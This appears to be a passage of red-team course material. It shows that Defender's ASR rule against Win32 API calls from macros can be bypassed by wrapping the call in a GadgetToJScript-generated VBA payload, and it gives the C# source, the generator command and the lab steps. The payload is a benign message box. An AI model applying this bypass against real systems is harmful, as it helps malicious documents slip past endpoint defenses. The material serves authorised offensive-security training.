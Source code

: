 _"This rule prevents VBA macros from calling Win32 APIs."_

Many popular tools, such as [VBA-RunPE](https://github.com/itm4n/VBA-RunPE), use P/Invoke within VBA to carry out actions such as process injection.  The way this rule is implemented seems rather odd.  If you create a word document and attempt to pop a message box, it will work.

```vb
Private Declare PtrSafe Function MessageBoxA Lib "user32.dll" (ByVal hWnd As Long, ByVal lpText As String, ByVal lpCaption As String, ByVal uType As Long) As Long

Sub Exec()
    Dim Result As Long
    Result = MessageBoxA(0, "This is a test", "Hello World", 0)
End Sub
```
  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/block-pinvoke-msgbox.png)

  

However, as soon as you try to save it to disk, Defender will block it.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/pinvoke-blocked-save.png)

  

I believe the rationale is that whenever you're sent a file, or you download one via a browser, Defender will delete it before it can be saved.  Even if you "open" a document from a browser, rather than "save" it, a temporary file is dropped to disk.  After some testing, I found that this rule only seems to be enforced when you P/Invoke directly from VBA - and not when it's done via [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript).

Create a new .cs file and enter the code you want to execute.  G2JS requires the code to execute be in the constructor.

```csharp
using System;
using System.Runtime.InteropServices;

public class Program
{
    [DllImport("user32.dll", CharSet = CharSet.Unicode)]
    static extern int MessageBoxW(IntPtr hWnd, string lpText, string lpCaption, uint uType);

    public Program()
    {
        MessageBoxW(IntPtr.Zero, "Hello from GadgetToJScript", "Hello World", 0);
    }
}
```

  

When we run G2JS, we provide the source code and specify the output type.

```powershell
C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -c TestAssembly\Program.cs -o C:\Users\Administrator\Desktop\vba -w vba -b
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
```

  

Copy the content of the VBA file, paste it into Word on WKSTN-2 and execute.

  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/gadgettojscript.png)

  

This document will save to disk - although Defender may complain about the content, it's thanks to a static G2JS signature, rather than anything to do with P/Invoke or APIs.